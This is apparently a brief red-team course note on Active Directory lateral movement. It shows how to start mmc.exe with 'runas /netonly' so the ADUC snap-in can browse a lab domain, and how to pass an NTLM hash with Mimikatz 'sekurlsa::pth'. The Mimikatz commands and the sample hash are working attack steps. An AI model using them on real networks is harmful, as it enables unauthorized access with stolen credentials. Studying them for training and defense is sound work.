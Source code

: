 
Starting a graphical interface to connect to a remote server which you have a token for:

```
PS C:\Users\Attacker> runas /netonly /user:DEV\bfarmer mmc.exe
Enter the password for DEV\bfarmer:
Attempting to start mmc.exe as user "DEV\bfarmer"
```

`mmc.exe` is a Windows tool responsible for creating/saving/opening consoles.
Go to **File > Add/Remove Snap-in** (or Ctrl + M for short), add the ADUC snap-in, then click OK.  Right-click on the snap-in, select **Change Domain**, enter `dev.cyberbotic.io` and click OK.  You will see Proxifier begin to capture and relay traffic and ADUC loads the content.  You may continue to drill down into the users and computers etc.

#### with Mimikatz

Another example using mimikatz to [[Pass the Hash]]:

```
mimikatz # privilege::debug
mimikatz # sekurlsa::pth /domain:DEV /user:bfarmer /ntlm:4ea24377a53e67e78b2bd853974420fc /run:mmc.exe
```

### ⚠ Opsec




### Properties
---
📆 created   {{17-02-2024}} 18:23
🏷️ tags: #redteam #crto 

---

